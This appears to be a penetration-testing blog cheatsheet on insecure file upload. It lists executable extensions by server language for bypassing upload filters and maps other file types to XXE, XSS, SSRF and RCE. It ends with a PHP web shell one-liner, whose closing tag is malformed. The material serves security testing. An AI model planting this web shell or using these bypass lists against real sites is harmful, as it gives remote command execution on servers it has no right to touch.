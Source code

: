 ```yaml
---
layout: post
title:  "Cheatsheet - File Upload"
description: Any Needs for Insecure File Upload
tags: Cheatsheet Web-Application
---
```


Guide to handle **File Upload** in **Web Application**

## Default Extensions

- PHP

    ```bash
    .php
    .php2
    .php3
    .php4
    .php5
    .php6
    .php7
    .pht
    .phps
    .phar
    .phpt
    .pgif
    .phtml
    .phtm
    .inc
    .shtml
    .htaccess
    ```
    {: file='PHP Extension'}

- ASP

    ```bash
    .asp
    .aspx
    .config
    .ashx
    .asmx
    .aspq
    .aspq
    .axd
    .cshtm
    .cshtml
    .rem
    .vbhtm
    .vbhtml
    .shtml
    .cer
    .asa
    .aspx;1.jpg
    .soap
    ```
    {: file='ASP Extension'}

- JSP

    ```bash
    .jsp
    .jspx
    .jsw
    .jsv
    .jspf
    .wss
    .do
    .actions
    ```
    {: file='JSP Extension'}

- Perl

    ```bash
    .pl
    .pm
    .cgi
    .lib
    ```
    {: file='Perl Extension'}

- Coldfusion

    ```bash
    .cfm
    .cfml
    .cfc
    .dbm
    ```
    {: file='Coldfusion Extension'}

- Node.js

    ```bash
    .js
    .json
    .node
    ```
    {: file='Node.js Extension'}

## Other Vulnerability Extension

```bash
.svg # XXE, XSS, SSRF
.gif # XSS
.csv # CSV Injection
.xml # XXE
.avi # LFI, SSRF
.js # XSS, Open Redirect
.zip # RCE, DOS, LFI
.html # XSS, Open Redirect
```
{: file='Other Vulnerability Extension'}

## One Liner

- PHP

    ```php
    <?php system($_REQUEST['cmd']); php>
    ```
